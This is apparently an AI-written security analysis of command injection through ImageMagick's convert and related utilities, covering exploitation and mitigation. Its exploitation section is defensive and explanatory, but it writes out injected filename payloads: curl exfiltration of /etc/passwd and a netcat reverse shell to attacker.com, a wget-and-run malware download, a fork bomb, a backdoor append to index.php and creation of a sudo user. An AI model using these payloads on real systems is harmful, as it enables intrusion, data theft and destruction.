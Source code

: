 ## Deep Dive Analysis: Command Injection via `convert` and Utilities in ImageMagick

As a cybersecurity expert working with your development team, let's conduct a deep analysis of the "Command Injection via `convert` and Utilities" attack surface in your application's use of ImageMagick.

**Understanding the Core Vulnerability:**

The root of this vulnerability lies in ImageMagick's architecture, which relies heavily on external command-line utilities for various image processing tasks. When your application constructs commands for these utilities (like `convert`, `mogrify`, `identify`, etc.) by directly concatenating user-supplied input, it creates a pathway for attackers to inject malicious commands. The operating system's shell interprets these concatenated strings, and if not properly sanitized, the injected commands will be executed with the same privileges as the application.

**Expanding on the Provided Description:**

While the basic example of injecting `rm -rf / #` is illustrative, the potential for exploitation is far more nuanced and dangerous. Attackers can leverage a variety of techniques to craft malicious payloads.

**Detailed Exploitation Scenarios:**

Beyond simple file deletion, attackers can achieve a wide range of malicious actions:

* **Data Exfiltration:**
    * Inject commands to copy sensitive data (database credentials, configuration files, user data) to an attacker-controlled server using tools like `curl`, `wget`, or even email.
    * Example: `output.jpg; curl attacker.com/collect?data=$(cat /etc/passwd) #`
* **System Manipulation:**
    * Create or modify files, potentially overwriting critical system configurations or injecting backdoors.
    * Example: `output.jpg; echo "evil_code" >> /var/www/html/index.php #`
    * Create new user accounts with administrative privileges.
    * Example: `output.jpg; useradd -m -G sudo attacker_user; echo "password" | passwd --stdin attacker_user #`
* **Denial of Service (DoS):**
    * Launch resource-intensive commands to overload the server, making it unresponsive.
    * Example: `output.jpg; :(){ :|:& };: #` (fork bomb)
    * Delete critical system files, rendering the server unusable.
* **Reverse Shells:**
    * Establish a persistent connection back to the attacker's machine, allowing them to execute commands remotely. This is a particularly dangerous scenario as it grants persistent access.
    * Example (using `nc`): `output.jpg; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker.com 4444 >/tmp/f #`
* **Lateral Movement:**
    * If the compromised server has access to other internal systems, attackers can use it as a stepping stone to attack those systems.
* **Installation of Malware:**
    * Download and execute malicious software on the server.
    * Example: `output.jpg; wget attacker.com/malware.sh -O /tmp/malware.sh && chmod +x /tmp/malware.sh && /tmp/malware.sh #`

**Technical Deep Dive - How the Injection Works:**

* **Command Separators:** Attackers utilize command separators like `;`, `&&`, `||`, and newlines to chain their malicious commands after the legitimate ImageMagick command.
* **Input Redirection and Piping:**  Operators like `>`, `<`, and `|` can be used to redirect input and output, allowing for complex command sequences.
* **Command Substitution:**  Using backticks (`) or `$(...)` allows the output of one command to be used as input for another, enabling powerful and potentially harmful actions.

**Why ImageMagick is Particularly Vulnerable:**

* **External Utility Reliance:** ImageMagick's core functionality relies on invoking external programs. This design choice, while offering flexibility, introduces the risk of command injection if input is not handled carefully.
* **Complexity and Feature Set:** ImageMagick offers a vast array of options and functionalities. This complexity can make it challenging to identify all potential injection points and properly sanitize all relevant inputs.
* **Historical Issues:**  ImageMagick has a history of vulnerabilities, including those related to command injection. This underscores the importance of ongoing vigilance and secure coding practices.

**Impact Beyond Remote Code Execution:**

While RCE is the most critical impact, other consequences can be significant:

* **Data Breach:** Exfiltration of sensitive information can lead to reputational damage, financial losses, and legal repercussions.
* **Service Disruption:** DoS attacks can render the application unavailable, impacting users and business operations.
* **Compromise of Infrastructure:** Successful attacks can lead to the compromise of the entire server or even the surrounding network.
* **Legal and Compliance Issues:** Data breaches and security incidents can result in fines and penalties under various regulations (e.g., GDPR, HIPAA).

**Expanding on Mitigation Strategies:**

The provided mitigation strategies are crucial, but let's delve deeper into their implementation:

* **Avoid String Concatenation for Commands:** This is the most fundamental principle. Never directly embed user input into command strings. Instead, treat user input as *data* and not as part of the *command structure*.
* **Use Parameterized Commands or Library Bindings:**
    * **Parameterized Commands:**  Utilize libraries or functions that allow you to pass arguments as separate parameters, preventing the shell from interpreting them as commands. For example, when using Python's `subprocess` module, pass arguments as a list: `subprocess.run(['convert', user_provided_input, 'output.jpg'])`.
    * **Library Bindings:**  Explore using ImageMagick's language-specific libraries (e.g., MagickWand for PHP, JMagick for Java, PythonMagick for Python) instead of directly invoking command-line utilities. These libraries often provide safer abstractions and parameter handling.
* **Strict Input Sanitization and Validation:** This is a multi-layered approach:
    * **Whitelisting:**  Define a strict set of allowed characters, formats, and values for user input. Reject anything that doesn't conform. This is the most secure approach.
    * **Blacklisting (Use with Caution):**  Identify and block known malicious patterns or characters. However, blacklisting can be easily bypassed by attackers who find new ways to encode or obfuscate their payloads. It should be used as a secondary measure, not the primary defense.
    * **Input Validation:**  Verify the type, format, and range of user input. For example, if expecting a filename, validate that it doesn't contain suspicious characters or path traversal attempts.
    * **Escaping:**  Use appropriate escaping mechanisms provided by your programming language or operating system shell to neutralize special characters that could be interpreted as command separators or operators. However, relying solely on escaping can be error-prone.

**Additional Mitigation Strategies:**

* **Sandboxing and Containerization:** Run ImageMagick processes within isolated environments like containers (Docker, Podman) or sandboxes. This limits the potential damage if an attack is successful. Tools like `firejail` can also be used for sandboxing.
* **Principle of Least Privilege:** Ensure the user account under which the ImageMagick process runs has only the necessary permissions to perform its tasks. Avoid running it with root or administrator privileges.
* **Security Audits and Code Reviews:** Regularly review the code that interacts with ImageMagick to identify potential vulnerabilities. Conduct penetration testing to simulate real-world attacks.
* **Keep ImageMagick Updated:** Ensure you are using the latest stable version of ImageMagick. Security updates often include patches for known vulnerabilities.
* **Content Security Policy (CSP):** While not directly preventing command injection, CSP can help mitigate the impact of certain attacks, such as those involving the execution of malicious scripts injected through other vulnerabilities.
* **Logging and Monitoring:** Implement robust logging to track all commands executed by the application, including those involving ImageMagick. Monitor these logs for suspicious activity or unusual patterns.

**Detection and Monitoring:**

* **Monitor System Logs:** Look for unusual process executions, especially those involving shell commands initiated by the application's user.
* **Intrusion Detection/Prevention Systems (IDS/IPS):** Configure your IDS/IPS to detect patterns associated with command injection attempts.
* **Security Information and Event Management (SIEM):** Aggregate logs from various sources to identify and correlate suspicious events related to ImageMagick usage.
* **Anomaly Detection:** Establish baselines for normal ImageMagick command usage and alert on deviations.

**Secure Development Practices:**

* **Security Training for Developers:** Educate your development team about the risks of command injection and secure coding practices for interacting with external processes.
* **Secure Code Reviews:** Implement mandatory code reviews with a focus on security aspects, particularly when dealing with user input and external commands.
* **Static and Dynamic Analysis Tools:** Utilize tools that can automatically identify potential command injection vulnerabilities in your code.

**Conclusion:**

The "Command Injection via `convert` and Utilities" attack surface in applications using ImageMagick is a critical security concern that demands careful attention. By understanding the underlying mechanisms of this vulnerability, implementing robust mitigation strategies, and adopting secure development practices, your team can significantly reduce the risk of exploitation. Remember, a layered security approach is essential, and relying on a single mitigation technique is often insufficient. Continuous vigilance, regular security assessments, and staying informed about the latest security best practices are crucial for maintaining a secure application.
